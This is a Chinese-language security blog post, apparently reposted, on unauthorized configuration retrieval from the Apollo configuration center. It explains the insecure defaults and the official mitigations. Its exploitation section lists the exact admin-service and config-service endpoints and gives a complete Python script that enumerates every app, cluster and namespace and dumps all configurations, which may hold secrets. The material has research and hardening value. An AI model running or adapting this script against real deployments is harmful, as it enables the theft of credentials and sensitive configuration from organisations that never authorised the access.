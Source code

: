 Apollo 配置中心未授权获取配置漏洞利用
*2021-01-08 00：13：07 作者： [landgrey.me（查看原文）](https://f5.pm/jump-53399.htm) 阅读量：3429 [收藏](https://f5.pm/go-53399.html#)*

------

### 0x00：背景

> Apollo（阿波罗）是携程框架部门研发的分布式配置中心，能够集中化管理应用不同环境、不同集群的配置，配置修改后能够实时推送到应用端，并且具备规范的权限、流程治理等特性，适用于微服务配置管理场景。

- 项目地址： https://github.com/ctripcorp/apollo

### 0x01：默认不安全

从 [issues-2099](https://github.com/ctripcorp/apollo/issues/2099) 可以看出，根本不需要通过要鉴权的 **apollo-dashboard** ，只要通过伪造成客户端，即可未授权获取相应的配置信息。

Apollo 官方的解决方案是：

**1.6.0 版本**开始增加访问密钥机制，只有经过身份验证的客户端才能访问敏感配置。如果应用开启了访问密钥，客户端需要配置密钥，否则无法获取配置。[但是默认不会开启此项功能](https://github.com/ctripcorp/apollo/pull/2828)。

**1.7.1 版本**开始可以为 **apollo-adminservice** 开启访问控制，从而只有合法的 **apollo-portal** 才能访问对应接口，以增强安全性。类似于增加配置：

```
admin-service.access.control.enabled = true
admin-service.access.tokens=098f6bcd4621d373xade4e832627b4f6
```

有意思的是，默认 值为 ，[也就是默认不会开启此项功能](https://github.com/ctripcorp/apollo/pull/3233)。`admin-service.access.control.enabled``false`

### 0x02：环境搭建

使用 https://github.com/nobodyiam/apollo-build-scripts 快速搭建好 demo。

- 默认开放的端口情况：

| 端口号 | 服务类型          |
| ------ | ----------------- |
| 8070   | Apollo-仪表板     |
| 8080   | apollo-config服务 |
| 8090   | apollo-admin服务  |

- 网站首页

**Apollo-仪表板**

![img](apollo.assets/imagef=https%253A%252F%252Flandgrey.me%252Fstatic%252Fupload%252F2021-01-07%252Fshwbucpf.png&ref=https%253A%252F%252Flandgrey.jpeg)

**apollo-config服务**

![img](apollo.assets/imagef=https%253A%252F%252Flandgrey.me%252Fstatic%252Fupload%252F2021-01-07%252Fugnacqmb.png&ref=https%253A%252F%252Flandgrey.jpeg)

**apollo-admin服务**

![img](apollo.assets/imagef=https%253A%252F%252Flandgrey.me%252Fstatic%252Fupload%252F2021-01-07%252Fohyqpbvz.png&ref=https%253A%252F%252Flandgrey.jpeg)

### 0x03：漏洞利用

由于网上没有漏洞细节，所以我下载了 Apollo 源码，分析了下几个服务的相关代码，下面给出一种利用方法。

大致流程就是利用默认可未授权访问的 和 服务，通过调用相关接口获取所有能够获取到的配置信息。`apollo-configservice``apollo-adminservice`

```
# 1. 获取所有的应用基本信息(包含 appId)
http://test.landgrey.me:8090/apps

# 2. 获取相关 appId 的所有 cluster
http://test.landgrey.me:8090/apps/<appId>/clusters

# 3. 获取相关 appId 的 namespaces
http://test.landgrey.me:8090/apps/<appId>/appnamespaces

# 4. 组合 appId cluster namespaceName 获取配置 configurations
http://test.landgrey.me:8080/configs/<appId>/<cluster>/<namespaceName>
```

**python3 利用脚本：**

```
#!/usr/bin/env python3
# coding: utf-8
# Build By LandGrey

import json
import time
import requests
from urllib.parse import urlparse


def get_response(uri):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:60.0) Gecko/20200101 Firefox/60.0",
        "Accept-Encoding": "gzip, deflate",
        "Accept-Language": "zh-CN,zh;q=0.9",
        "Connection": "close"
    }
    return requests.get(uri, headers=headers, timeout=20, allow_redirects=False)


def get_app_ids(uri):
    app_ids = []
    response = get_response("{}/apps".format(uri))
    html = response.text
    if response.status_code == 200:
        for app in json.loads(html):
            app_ids.append(app.get("appId"))
    return app_ids


def get_clusters(uri, app_ids):
    clusters = {}
    for app_id in app_ids:
        clusters[app_id] = []
        response = get_response("{}/apps/{}/clusters".format(uri, app_id))
        html = response.text
        if response.status_code == 200:
            for app in json.loads(html):
                clusters[app_id].append(app.get("name"))
    return clusters


def get_namespaces(uri, app_ids, clusters):
    namespaces = {}
    for app_id in app_ids:
        namespaces[app_id] = []
        for cluster in clusters[app_id]:
            url = "{}/apps/{}/clusters/{}/namespaces".format(uri, app_id, cluster)
            response = get_response(url)
            html = response.text
            if response.status_code == 200:
                for app in json.loads(html):
                    namespaces[app_id].append(app.get("namespaceName"))
    return namespaces


def get_configurations(uri, app_ids, clusters, namespaces):
    configurations = []
    for app_id in app_ids:
        for cluster in clusters[app_id]:
            for namespace in namespaces[app_id]:
                key_name = "{}-{}-{}".format(app_id, cluster, namespace)
                url = "{}/configs/{}/{}/{}".format(uri, app_id, cluster, namespace)
                response = get_response(url)
                code = response.status_code
                html = response.text
                print("[+] get {} configs, status: {}".format(url, code))
                time.sleep(1)
                if code == 200:
                    configurations.append({key_name: json.loads(html)})
    return configurations


if __name__ == "__main__":
    apollo_adminservice = "http://test.landgrey.me:8090"
    apollo_configservice = "http://test.landgrey.me:8080"

    scheme0, netloc0, path0, params0, query0, fragment0 = urlparse(apollo_adminservice)
    host0 = "{}://{}".format(scheme0, netloc0)

    _ids = get_app_ids(host0)
    print("All appIds:")
    print(_ids)

    _clusters = get_clusters(host0, _ids)
    print("\nAll Clusters:")
    print(_clusters)

    _namespaces = get_namespaces(host0, _ids, _clusters)
    print("\nAll Namespaces:")
    print(_namespaces)
    print()

    scheme1, netloc1, path1, params1, query1, fragment1 = urlparse(apollo_configservice)
    host1 = "{}://{}".format(scheme1, netloc1)
    _configurations = get_configurations(host1, _ids, _clusters, _namespaces)
    print("\nresults:\n")
    print(_configurations)
```

![img](apollo.assets/imagef=https%253A%252F%252Flandgrey.me%252Fstatic%252Fupload%252F2021-01-07%252Fyjkwixoq.png&ref=https%253A%252F%252Flandgrey.jpeg)